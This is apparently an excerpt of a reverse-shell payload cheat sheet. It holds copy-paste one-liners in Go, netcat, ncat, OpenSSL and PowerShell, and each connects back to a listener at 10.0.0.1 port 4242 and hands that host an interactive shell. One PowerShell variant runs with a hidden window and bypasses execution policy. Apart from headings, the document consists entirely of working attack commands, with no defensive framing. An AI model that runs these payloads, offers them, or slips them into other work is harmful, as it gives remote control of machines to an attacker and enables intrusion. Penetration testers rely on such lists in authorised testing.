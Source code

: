 ### Golang

```bash
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","10.0.0.1:4242");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go
```

### Netcat Traditional

```bash
nc -e /bin/sh 10.0.0.1 4242
nc -e /bin/bash 10.0.0.1 4242
nc -c bash 10.0.0.1 4242
```

### Netcat OpenBsd

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
```

### Ncat

```bash
ncat 10.0.0.1 4242 -e /bin/bash
ncat --udp 10.0.0.1 4242 -e /bin/bash
```

### OpenSSL

Attacker:
```powershell
user@attack$ openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
user@attack$ openssl s_server -quiet -key key.pem -cert cert.pem -port 4242
or
user@attack$ ncat --ssl -vv -l -p 4242

user@victim$ mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 10.0.0.1:4242 > /tmp/s; rm /tmp/s
```

### Powershell

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

